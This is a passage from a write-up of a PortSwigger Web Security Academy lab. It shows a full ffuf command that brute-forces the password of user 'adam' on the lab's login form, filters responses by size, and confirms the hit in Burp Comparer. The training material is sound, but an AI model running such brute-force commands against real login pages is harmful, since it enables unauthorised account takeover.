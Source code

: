 ![picture 63](/assets/images/6c5267a4484d16fde7b28f4354d2bf081814d8f0a84d8b371afc0197a17645b3.png)  

User `adam` stood out, so it was brute-forced again using whole password list.

```sh
ffuf -w portswigger_passwords:FUZZ_PW -H "Content-Type: application/x-www-form-urlencoded" -u "https://0a58009d041cd3f7c0ae1c7f007000a9.web-security-academy.net/login" -d "username=adam&password=FUZZ_PW" --fs 3049 --fs 3101 -x http://127.0.0.1:8080
```
Obviously there is a difference if password maches. Below the comparisson using Burp Comparer:

![picture 65](/assets/images/2fcc656d531f93859dab30119e5a74cc6a6b7943e6b2472d73839d728faf56f0.png)  
